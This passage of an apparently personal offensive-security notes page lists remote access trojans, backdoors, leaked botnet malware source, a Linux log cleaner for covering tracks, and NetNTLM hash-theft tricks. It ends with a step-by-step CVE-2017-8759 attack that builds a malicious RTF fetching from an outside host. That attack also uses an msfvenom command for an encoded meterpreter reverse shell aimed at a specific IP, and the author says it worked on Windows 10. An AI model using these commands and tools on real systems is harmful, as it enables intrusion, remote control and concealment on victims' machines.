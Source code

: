 Windows:

* [sbd](http://sbd.sourceforge.net/) (windows) - secure backdoor
* [QuasarRAT](https://github.com/quasar/QuasarRAT/releases) - remote administration tool for windows
* [pupy](https://github.com/n1nj4sec/pupy/) - opensource, cross-platform (Windows, Linux, OSX, Android) remote administration and post-exploitation tool mainly written in python
* [Stitch](https://github.com/nathanlopez/Stitch)
* [outis](https://github.com/SySS-Research/outis) - outis is a custom Remote Administration Tool (RAT) or something like that. It was build to support various transport methods (like DNS) and platforms (like Powershell).

<br>

* Botnets:
    <br> [lizkebab botnet](https://github.com/ifding/iot-malware/tree/master/lizkebab)
    <br> more: [iot-malware](https://github.com/ifding/iot-malware) - malware source code samples leaked - BE ACCURATE!!

article: [Modern linux rootkits 101](https://turbochaos.blogspot.ru/2013/09/linux-rootkits-101-1-of-3.html)





<br>

### concealment

* [ropeadope](https://github.com/nullsecuritynet/tools/tree/master/logcleaner/ropeadope) - a Linux logcleaner





<br>

---

## APT - Advanced Persistent Thread

---

* Stealing NetNTLM hashes:

    * BadPDF
    * LRM - Left-to-Right mark (pdf.exe vs exe.pdf)
    * `.scf`, `.url`, `file://` (OWA), ... - [see more at]({{ "/infosec/windows.html#honeypot-likemitm-tools" | prepend: site.baseurl }})
    * malicious macros

* `msf> search exploit/windows/fileformat/adobe_pdf_embedded_exe` - embed shellcode into pdf
* *CVE-2017-8759* - insert shellcode into *.rtf* (last time I tested it under windows 10 - it worked perfectly)
    
    <div class="spoiler"><div class="spoiler-title" markdown="1">
    *[PoC for infecting rtf (github poc)](https://github.com/bhdresh/CVE-2017-8759):*
    </div><div class="spoiler-text" markdown="1">
    * generate malicious RTF file `python cve-2017-8759_toolkit.py -M gen -w report-2017.rtf -u http://back-connect.com/logo.txt`
    * embed `.exe` into OLE Packager.dll function: [CVE-2018-0802](https://github.com/rxwx/CVE-2018-0802/blob/master/packager_exec_CVE-2018-0802.py)
    * (Optional, if using MSF Payload) : Generate metasploit payload and start handler: `msfvenom -p windows/meterpreter/reverse_https LHOST=195.16.61.232 LPORT=443 -f exe -a x86 --platform windows -b "\x00\x0a\x0d" -i 15 -e x86/shikata_ga_nai > /tmp/meter-reverse-https.exe`
    * Start toolkit in exploit mode to deliver local payload: `python cve-2017-8759_toolkit.py -M exp -e http://back-connect.com/logo.txt -l /tmp/meter-reverse-https.exe`
    </div></div>
